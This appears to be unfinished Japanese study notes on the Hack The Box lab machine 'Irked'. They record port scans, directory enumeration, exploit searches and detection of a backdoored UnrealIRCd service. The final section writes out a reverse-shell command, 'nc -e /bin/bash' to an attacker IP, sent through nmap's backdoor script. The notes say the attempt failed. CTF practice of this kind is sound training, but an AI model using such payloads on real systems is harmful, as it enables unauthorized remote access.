

# Irked

## 偵察

```bash
sudo nmap -sC -sV -O -oA initial 10.10.10.117
```

-sC：　--script=defaultと同様。NSEスクリプトの実行結果を表示する

```bash
PORT    STATE SERVICE    VERSION
22/tcp  open  tcpwrapped
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp  open  tcpwrapped
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp open  tcpwrapped
```

```bash
sudo nmap -p 22,80,111 -sV -oA full-scripts 10.10.10.117
```

-sV：サービスとバージョン情報を表示
-oA：代表的な3フォーマットでファイル出力する

```bash
$ sudo nmap -p 22,80,111 -sV -oA full-scripts 10.10.10.117
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind 2-4 (RPC #100000)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 調査

* 80ポートをブラウザで



IRC：Internet Relay Chat (サーバーを介してクライアントとクライアントが会話をする枠組み)

* ディレクトリ探索

  ```bash
  sudo dirb http://10.10.10.117/
  
  ---- Scanning URL: http://10.10.10.117/ ----
  + http://10.10.10.117/index.html (CODE:200|SIZE:72)
  ==> DIRECTORY: http://10.10.10.117/manual/
  + http://10.10.10.117/server-status (CODE:403|SIZE:300)
  ---- Entering directory: http://10.10.10.117/manual/ ----
  ==> DIRECTORY: http://10.10.10.117/manual/da/
  ==> DIRECTORY: http://10.10.10.117/manual/de/
  ==> DIRECTORY: http://10.10.10.117/manual/en/
  ==> DIRECTORY: http://10.10.10.117/manual/es/
  ==> DIRECTORY: http://10.10.10.117/manual/fr/
  ==> DIRECTORY: http://10.10.10.117/manual/images/
  + http://10.10.10.117/manual/index.html (CODE:200|SIZE:626)
  ==> DIRECTORY: http://10.10.10.117/manual/ja/
  ==> DIRECTORY: http://10.10.10.117/manual/ko/
  ==> DIRECTORY: http://10.10.10.117/manual/style/
  ==> DIRECTORY: http://10.10.10.117/manual/tr/
  ==> DIRECTORY: http://10.10.10.117/manual/zh-cn/
  ---- Entering directory: http://10.10.10.117/manual/da/ ----
  ==> DIRECTORY: http://10.10.10.117/manual/da/developer/
  ==> DIRECTORY: http://10.10.10.117/manual/da/faq/                      ==> DIRECTORY: http://10.10.10.117/manual/da/howto/
  + http://10.10.10.117/manual/da/index.html (CODE:200|SIZE:9041)
  ==> DIRECTORY: http://10.10.10.117/manual/da/misc/
  ==> DIRECTORY: http://10.10.10.117/manual/da/mod/      
  ==> DIRECTORY: http://10.10.10.117/manual/da/programs/ 
  ```

* サービスの脆弱性検索

  ```bash
  └─$ sudo searchsploit OpenSSH 6.7p1
  --------------------------------------------- ---------------------------------
   Exploit Title                               |  Path
  --------------------------------------------- ---------------------------------
  OpenSSH 2.3 < 7.7 - Username Enumeration     | linux/remote/45233.py
  OpenSSH 2.3 < 7.7 - Username Enumeration (Po | linux/remote/45210.py
  OpenSSH < 7.4 - 'UsePrivilegeSeparation Disa | linux/local/40962.txt
  OpenSSH < 7.4 - agent Protocol Arbitrary Lib | linux/remote/40963.txt
  OpenSSH < 7.7 - User Enumeration (2)         | linux/remote/45939.py
  --------------------------------------------- ---------------------------------
  Shellcodes: No Results
  ```

  ```bash
  sudo searchsploit rpcbind 2-4
  Exploits: No Results
  Shellcodes: No Results
  ```

* SSHでrootログインしてみる

  ```bash
  $ ssh root@10.10.10.117
  The authenticity of host '10.10.10.117 (10.10.10.117)' can't be established.
  ED25519 key fingerprint is SHA256:Ej828KWlDpyEOvOxHAspautgmarzw646NS31tX3puFg.
  This key is not known by any other names
  Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
  Warning: Permanently added '10.10.10.117' (ED25519) to the list of known hosts.
  root@10.10.10.117's password: 
  ```

  →パスワード認証に対応していそう。

  

明日WriteUP見ながら完成させる。

## 偵察

* 追加で全ポートスキャンを実施している

  ```bash
  sudo nmap -sC -sV -O -p- -oA full 10.10.10.117
  ```

* UDPスキャンも実施

  ```bash
  nmap -sU -O -p- -oA udp 10.10.10.117
  ```

## 調査

* IRCの脆弱性について

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Irked]
└─$ ls /usr/share/nmap/scripts/ | grep irc
irc-botnet-channels.nse
irc-brute.nse
irc-info.nse
irc-sasl-brute.nse
irc-unrealircd-backdoor.nse
```

* 検出されたポートに、backdoorの脆弱性があるか確認してみる

```bash
sudo nmap -p 6697,8067,65534 --script irc-unrealircd-backdoor 10.10.10.117

$ sudo nmap -p 6697,8067,65534 --script irc-unrealircd-backdoor 10.10.10.117
[sudo] kali のパスワード:
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-26 19:17 JST
Nmap scan report for 10.10.10.117
Host is up (0.21s latency).

PORT      STATE SERVICE
6697/tcp  open  ircs-u
|_irc-unrealircd-backdoor: Looks like trojaned version of unrealircd. See http://seclists.org/fulldisclosure/2010/Jun/277
8067/tcp  open  infi-async
|_irc-unrealircd-backdoor: Server closed connection, possibly due to too many reconnects. Try again with argument irc-unrealircd-backdoor.wait set to 100 (or higher if you get this message again).
65534/tcp open  unknown

```

→6697側に脆弱性がありそう。(Writeupと異なる結果)

## 踏み台権限取得

* UnreallRCd backdoorの脆弱性を利用してリバースシェルを張る。

  ```bash
  $ nc -nlvp 4444
  listening on [any] 4444 ...
  ```

  ```
  sudo nmap -p 6697 --script=irc-unrealircd-backdoor --script-args=irc-unrealircd-backdoor.command="nc -e /bin/bash 10.10.16.9 4444"  10.10.10.117
  ```

  うまくリバースシェルを張ることができない。Youtube動画に切り替える

  

